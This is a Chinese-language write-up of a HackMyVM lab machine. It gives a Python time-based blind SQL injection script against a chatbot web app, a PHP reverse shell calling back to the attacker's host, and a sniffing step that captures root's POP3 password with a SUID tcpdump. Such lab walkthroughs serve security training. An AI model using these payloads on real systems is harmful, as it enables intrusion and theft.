 ```yaml
---
title: hackmyvm靶机messages
copyright: true
date: 2022-02-16 04:04:18
tags: 靶机渗透
---
```

难度适中但综合性很强的一个靶机
<!--more-->

{%asset_img 1.png %}
1.上来先三板斧：探测/端口/扫目录
```
fping -a -g 10.10.10.0/24 -q > ip.txt
```
{%asset_img 2.png %}
```
nmap -sVC -p1-65535 10.10.10.157 > port.txt
```
{%asset_img 3.png %}
```
python3 dirsearch.py -u https://10.10.10.157 -e php
```
{%asset_img 4.png %}
2.查看页面，源码审计
web页面是一个聊天机器人服务，简单测下有个xss，但目测没法利用。
{%asset_img 5.png %}
在exploit-db上搜索Simple ChatBot Application,有三个漏洞：
	1. sql盲注，经过测试发现可以使用 (√)
	2. RCE需要登入后台上传文件触发  (?)
	3. xss直接忽略   (x)
{%asset_img 6.png %}
按照漏洞说明抓下请求头，放到sqlmap里sqlmap -r msg.txt跑下，只跑出information_schema一个数据库，information_schema里也没啥东西，检查了几遍也不知道问题出在哪，这里就自己撸个脚本吧。
{%asset_img 7.png %}
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Time    : 2022/2/16 01:36
# @Author  : lockcy
# @File    : blindinjection.py

import requests
import time

url = "https://10.10.10.157/chatbot/classes/Master.php?f=get_response"
requests.packages.urllib3.disable_warnings()
result = ""
for a in range(1, 100):
    start = 32
    end = 128
    while start < end:
        time1 = time.time()
        mid = (start + end) //2
        header = {
            "Host": "10.10.10.157",
            "Content-Type": "application/x-www-form-urlencoded",
        }
        # database chatbot
        # data = "message=' union select 1,(if(ascii(substr(database(),{0},1))<{1},sleep(2),1))-- -".format(a, mid)
        # table unanswered,users,questions,responses,system_info,frequent_asks
        # data = "message=' union select 1,(if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema='chatbot'),{0},1))<{1},sleep(2),1))-- -".format(a, mid)
        # id,firstname,lastname,username,password,avatar,last_login,date_added,date_updated
        # data = "message=' union select 1,(if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='users'),{0},1))<{1},sleep(2),1))-- -".format(a, mid)
        # admin  0192023a7bbd73250516f069df18b500
        data = "message=' union select 1,(if(ascii(substr((select group_concat(username, password) from users),{0},1))<{1},sleep(2),1))-- -".format(a, mid)
        html = requests.post(url=url, data=data, headers=header, verify=False)
        time2 = time.time()
        if time2 - time1 > 2:
            end = mid
        else:
            start = mid + 1
    result = result + chr(start-1)
    print(result)
```
后来发现在exploit-db提供的源码网站里可以下到源码https://www.sourcecodester.com/php/14788/simple-chatbot-application-using-php-source-code.html，
源码里也有默认用户名密码TAT（高情商：盲注下确保密码正确，低情商：白忙活）
{%asset_img 8.png %}
somd5跑下加密后的密码，获得simple chatbot后台登录用户名和密码admin admin123
{%asset_img 9.png %}
登入发现可以利用之前exploit-db搜到的RCE，这里三个地方都有上传点，我选了SystemLogo（后面两个上传点总是遇到文件消失的问题），从代码逻辑看，没有任何过滤，只是在文件名前加了格式化的时间戳。
{%asset_img 10.png %}
上传成功，可以执行些简单的php命令，但无法使用system，推测disable_function 禁用了，但exec没禁用
{%asset_img 11.png %}
直接上传反弹shell 执行， kali  nc -lvvp 8888监听
revshell.php
```
<?php
    $sock = fsockopen("10.10.10.128", 8888);
    $descriptorspec = array(
            0 => $sock,
            1 => $sock,
            2 => $sock
    );
    $process = proc_open('/bin/sh', $descriptorspec, $pipes);
    proc_close($process);
```
**getshell**
{%asset_img 12.png %}
userflag在/home/ruby/userflag.txt中，但www-data没有权限读，在同目录下的notes文件中发现提示：
{%asset_img 13.png %}
利用配置文件中的数据库用户名和密码登入数据库，在vmail.mailbox表中发现了相关内容，ruby正好是我们想越权的账户，且notes中似乎也暗示ruby存在弱密码。
{%asset_img 14.png %}
利用hashcat爆破下弱口令，获得ruby的邮箱账号和密码ruby@messages.hmv   Ruby.r123
{%asset_img 15.png %}
登入https://10.10.10.157/mail/邮件应用发现ruby用户的ssh私钥
{%asset_img 16.png %}
保存至id_rsa，登入靶机，获取user权限
{%asset_img 17.png %}
```
find / -perm -4000 2>/dev/null
```
{%asset_img 18.png %}
发现tcpdump有root权限，想起之前提示的靶机有check mail的功能，利用tcpdump嗅探root用户检查邮件功能的数据包
```
tcpdump -i lo -G 30 -w data.cap
```
在数据包中发现root用户在使用pop3协议登录时使用的密码，登入靶机，获取root权限
{%asset_img 19.png %}
